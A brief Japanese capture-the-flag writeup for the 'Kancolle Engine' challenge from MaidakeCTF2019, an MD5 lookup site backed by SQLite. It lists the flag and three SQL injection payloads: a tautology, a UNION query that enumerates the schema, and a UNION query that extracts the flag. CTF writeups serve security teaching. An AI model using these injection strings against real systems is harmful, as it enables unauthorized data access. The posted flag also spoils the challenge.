 # Kancolle Engine

## 問題文
艦娘のMD5を検索できるサイトを作ってみました！
※sqlite3を使用しています。

## 添付ファイル
URL

## Flag
MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}

## 検証用URL
https://aokakes.work/CTF/MaidakeCTF2019/Kancolle_Engine/

## writeup
1. 1' or 1 = 1 -- 
2. 1' UNION SELECT name, sql FROM sqlite_master WHERE type='table' ORDER BY name -- 
3. 1' UNION SELECT flag,0 FROM flag -- 
